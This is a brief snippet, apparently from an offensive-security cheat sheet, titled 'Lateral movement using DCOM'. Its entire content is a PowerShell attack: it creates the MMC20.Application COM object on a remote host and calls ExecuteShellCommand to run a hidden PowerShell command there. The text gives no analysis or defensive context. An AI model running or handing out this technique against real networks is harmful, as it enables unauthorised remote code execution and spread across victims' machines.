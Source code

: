 ### Lateral movement using DCOM
```
$mmc = [activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application", "<domain>"))
$mmc.Document.ActiveView.ExecuteShellCommand("powershell.exe",$null,'-NoP -W Hidden -Command "<command>"',$null)
```

